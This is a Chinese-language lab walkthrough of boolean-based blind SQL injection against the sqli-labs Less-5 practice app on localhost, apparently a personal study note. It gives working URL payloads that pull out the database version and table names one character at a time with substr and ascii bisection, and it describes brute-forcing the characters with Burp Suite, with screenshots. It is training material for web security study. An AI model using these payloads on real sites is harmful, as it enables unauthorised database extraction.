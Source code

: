 ![截屏2021-06-09 下午10.07.12.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623247647163-6c26d6d6-8aa0-4f14-a4f7-4ece5c6a6aa1.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=pTp71&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8810.07.12.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=890799&status=done&style=none&title=&width=2604)<br />输入<br />http://127.0.0.1:8081/Less-5/?id=1' and 0 %23<br />![截屏2021-06-09 下午10.05.50.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623247610627-bad53856-1458-4c10-ba2a-940bdd3adb1c.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=q8sYg&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8810.05.50.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=950839&status=done&style=none&title=&width=2604)<br />查询version<br />http://127.0.0.1:8081/Less-5/?id=0' or (select substr(version(),1,1)='5') %23<br />![截屏2021-06-09 下午10.15.05.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623248145606-35d260fe-c112-476c-b4ff-9bdb75f8489b.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=caIa9&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8810.15.05.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=973035&status=done&style=none&title=&width=2604)<br />获取到版本的第一个字符为5，以此类推获取全部字符即可<br />获取表名<br />http://127.0.0.1:8081/Less-5/?id=0' or ((select substr(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='e') %23<br />![截屏2021-06-09 下午10.31.52.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623249132290-0b35bcfc-aaf3-490c-9c3d-831b02ea02fd.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=u4Rze&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8810.31.52.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=983898&status=done&style=none&title=&width=2604)<br />或者将字符转换成ascii码数字用二分法进行判断<br />http://127.0.0.1:8081/Less-5/?id=0' or ((select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 0,1)>100) %23<br />![截屏2021-06-09 下午10.36.07.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623249435049-e6a851d6-aadf-47fd-8840-47085c21d0c2.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=C0Rgo&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8810.36.07.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=984656&status=done&style=none&title=&width=2604)<br />得到字符的ascii码为101，即e<br />http://127.0.0.1:8081/Less-5/?id=0' or ((select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 0,1)=101) %23<br />![截屏2021-06-09 下午10.39.32.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623249587368-f6ee8bbe-4714-4059-aafd-5a2d22b4f48f.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=NI5dB&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8810.39.32.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=984806&status=done&style=none&title=&width=2604)<br />依此类推判断其他字符即可<br />使用burpsuite爆破<br />抓包，设置变量<br />![截屏2021-06-09 下午10.49.07.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623250203802-f21235ee-4db8-4568-ba02-e3825f78fede.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=DTfyq&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8810.49.07.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=491805&status=done&style=none&title=&width=2696)<br />设置payload<br />![截屏2021-06-09 下午10.49.15.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623250224114-8637a251-a504-49ed-9577-bfa9130c2ea8.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=C9ahB&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8810.49.15.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=437522&status=done&style=none&title=&width=2696)<br />爆破后，按照包长排序，得到101<br />![截屏2021-06-09 下午10.49.32.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623250278410-b6677f14-ede8-4120-915c-89641c635422.png#crop=0&crop=0&crop=1&crop=1&height=1312&id=v2XbG&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8810.49.32.png&originHeight=1312&originWidth=1816&originalType=binary&ratio=1&rotation=0&showTitle=false&size=374129&status=done&style=none&title=&width=1816)<br />依此类推即可<br />或者使用双字典爆破，一次性获取所有<br />![截屏2021-06-09 下午11.03.14.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623251011189-93a3c8f8-fa33-42e3-a1e5-d455678a9303.png#crop=0&crop=0&crop=1&crop=1&height=1312&id=QSq0b&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%8811.03.14.png&originHeight=1312&originWidth=1816&originalType=binary&ratio=1&rotation=0&showTitle=false&size=381768&status=done&style=none&title=&width=1816)
### 时间盲注